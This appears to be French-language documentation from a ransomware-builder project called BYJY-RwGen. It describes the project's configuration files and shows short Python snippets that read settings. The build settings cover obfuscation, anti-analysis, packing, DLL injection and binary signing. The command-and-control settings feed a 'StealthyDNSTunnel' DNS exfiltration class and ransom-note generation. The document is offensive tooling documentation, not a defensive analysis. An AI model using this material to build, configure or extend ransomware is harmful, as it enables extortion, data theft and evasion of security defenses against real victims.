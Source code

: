 # BYJY-RwGen - Analyse Complète des Fichiers de Configuration

## 📋 ÉNUMÉRATION EXHAUSTIVE DES FICHIERS DE CONFIGURATION

---

## 1. FICHIERS DE CONFIGURATION PRINCIPAUX

### 1.1. **build_config.json** 
**Localisation** : `/app/build_config.json`
**Utilisé par** : 
- `builders/windows_builder.py` (classe `AdvancedWindowsBuilder.__init__()`)
- `master_builder.py` (méthode `load_configs()`)

**Utilisation exacte dans le code** :
```python
# builders/windows_builder.py ligne 15-16
def __init__(self, config_file="build_config.json"):
    self.config = self.load_config(config_file)

# Accès aux paramètres :
self.config["source_dir"]              # Répertoire source
self.config["output_dir"]              # Répertoire sortie  
self.config["main_executable"]         # Nom exécutable
self.config["target_architecture"]     # Architecture
self.config["compiler_flags"]          # Flags compilation
self.config["linker_flags"]            # Flags linkage
self.config["obfuscation_level"]       # Niveau obfuscation
self.config["enable_anti_analysis"]    # Anti-analyse
self.config["pack_executable"]         # Empaquetage
self.config["inject_dll"]              # Injection DLL
self.config["sign_binary"]             # Signature binaire
```

**Impact fonctionnel** :
- Contrôle compilation (flags, architecture)
- Définit niveau obfuscation (low/medium/high)
- Active/désactive anti-analyse
- Configure injection DLL et signature

---

### 1.2. **c2_config.json**
**Localisation** : `/app/c2_config.json`
**Utilisé par** :
- `command_control/dns_tunneling/dns_exfil.py` (classe `StealthyDNSTunnel.__init__()`)
- `master_builder.py` (génération ransom note)

**Utilisation exacte dans le code** :
```python
# command_control/dns_tunneling/dns_exfil.py ligne 16-24
def __init__(self, c2_domain, encryption_key, mode="exfil"):
    self.c2_domain = c2_domain                    # Depuis c2_config.json
    self.encryption_key = encryption_key[:32]      # Clé C&C
    self.chunk_size = 30                          # Taille chunks DNS
    self.resolver.nameservers = ["8.8.8.8", "1.1.1.1"]  # DNS servers

# Paramètres utilisés :
config["c2_domain"]                    # Domaine principal C&C
config["backup_domains"]               # Domaines secours
config["dns_servers"]                  # Serveurs DNS
config["communication"]["chunk_size"]   # Taille fragments
```